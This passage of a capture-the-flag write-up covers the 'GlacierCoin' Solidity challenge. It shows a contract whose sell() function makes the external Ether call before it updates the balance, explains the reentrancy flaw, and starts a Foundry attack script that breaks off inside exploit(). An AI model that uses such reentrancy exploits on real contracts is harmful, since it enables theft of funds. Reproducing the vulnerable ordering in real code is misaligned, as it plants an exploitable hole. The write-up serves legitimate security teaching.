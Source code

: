 ```javascript
        require(frozen[msg.sender] >= amount, "You can not unfreeze this much");
        frozen[msg.sender] -= amount;
        balances[msg.sender] += amount;
    }
    //You can even sell your token for ether, but you can only sell as much as you have
    function sell(uint256 amount) public
    {
        require(balances[msg.sender] >= amount, "You can not sell this much as you are poor af");
        uint256 new_balance = balances[msg.sender] - amount;
        (msg.sender).call{value: amount}("");
        balances[msg.sender] = new_balance;
    }
    //Internal functions (These shouldn't interest you)
    function _mint(uint256 amount, address target) internal
    {
        balances[target] += amount;
    }   
}

```

Observations :

1. We are given with setup contract address
2. Setup contract deployes the GlacierCoin contract and funds with 10 ether
3. GlacierCoin is a non-standard token contracts with buy, sell, freeze features

Goal : 

- The goal is to make the GlacierCoin balance 0 (look at isSolved() in Setup)

We can simply look at the `sell()` function which is susceptable to the great `Reentrancy`. The balance of the sender updated after the external call. So, we can simply write an Attack contract with a fallback function `Reenter` into the `sell()` function.

Attack : 

1. Buy 10 coins in GlacierCoin with 10 ether
2. Sell it back
3. Reenter into sell again from fallback

`Attack.s.sol` : 

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;
import {Setup} from "../src/GlacierCoin/Setup.sol";
import {GlacierCoin} from "../src/GlacierCoin/Challenge.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";

contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 20 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}

contract Attack{
    Setup public setupContract = Setup(0x1163C62DE50f6f148e3deA99cA65EBAff3fab967);
    GlacierCoin public TARGET = GlacierCoin(address(setupContract.TARGET()));
    constructor() payable {
        require(msg.value == 20 ether); // For attack contract usage
    }
    function exploit() public{
```